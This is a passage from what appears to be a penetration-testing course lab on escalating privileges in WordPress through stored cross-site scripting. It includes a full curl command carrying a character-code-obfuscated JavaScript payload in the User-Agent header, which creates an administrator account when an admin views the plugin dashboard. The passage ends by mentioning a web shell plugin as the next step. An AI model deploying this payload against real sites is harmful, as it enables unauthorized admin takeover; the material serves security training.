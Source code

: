 The _encode_to_javascript_ function will parse the minified JS string parameter and convert each character into the corresponding UTF-16 integer code using the _charCodeAt_[9](https://portal.offsec.com/courses/pen-200-44065/learning/introduction-to-web-application-attacks-44516/cross-site-scripting-44558/privilege-escalation-via-xss-44525#fn-local_id_89-9) method.

Encoding the Minified JS with the Browser Console

![Figure 31: Encoding the Minified JS with the Browser Console](https://static.offsec.com/offsec-courses/PEN-200/imgs/webintro/90fa49369352cbf0dc80ea7dd2c19564-xss7.png)

Launching the Final XSS Attack through Curl

```
kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```

Before running this, start Burp with intercept on. 

We instructed curl to send a specially-crafted HTTP request with a User-Agent header containing our malicious payload, then forward it to our Burp instance so we can inspect it further.

![Figure 32: Inspecting the Attack in Burp](https://static.offsec.com/offsec-courses/PEN-200/imgs/webintro/b0c5559626ac4e29fa8040c431e7aaa8-xss8.png)

Forward the request.

 XSS exploit should have been stored in the WordPress database. We only need to simulate execution by logging in to the OffSec WP instance as admin, then clicking on the Visitors plugin dashboard on the bottom left

![Figure 33: Loading Visitors Statistics](https://static.offsec.com/offsec-courses/PEN-200/imgs/webintro/d64d2d202ef9d66aa74802ab070c77b1-xss9.png)

Confirming that our Attack Succeeded

![Figure 34: Confirming that our Attack Succeeded](https://static.offsec.com/offsec-courses/PEN-200/imgs/webintro/9d0dac705ec8e4521f66c5b752de9739-xss10.png)

Due to this XSS flaw, we managed to elevate our application privileges from a standard user to administrator via a specially-crafted HTTP request.

We could now advance our attack and gain access to the underlying host by crafting a custom WordPress plugin with an embedded web shell

